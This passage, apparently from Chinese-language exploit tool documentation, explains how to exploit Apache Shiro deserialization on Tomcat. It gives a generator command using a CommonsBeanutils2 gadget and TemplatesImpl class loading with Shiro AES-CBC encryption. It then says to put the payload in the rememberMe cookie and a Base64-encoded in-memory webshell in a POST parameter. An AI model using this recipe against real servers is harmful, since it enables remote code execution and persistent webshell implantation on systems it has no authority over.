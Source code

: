 ![image-20250105135858146](images/image-20250105135858146.png)

#### Tomcat defineCLass

描述：在Tomcat中间件的场景下，如果限制请求header的长度可以使用从请求体中类分离加载的方式来减少长度

工具：shiro_tomcat_loadclass:user 的功能是从user参数中读取字节码并用ClassLoader加载

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:shiro_tomcat_loadclass:user" -shiro-encrypt "AES-CBC"
```

在HTTP的remeberMe中填充上述第二步ysoserial生成的payload，POST的user参数中填充Base64格式内存马：记得URI编码
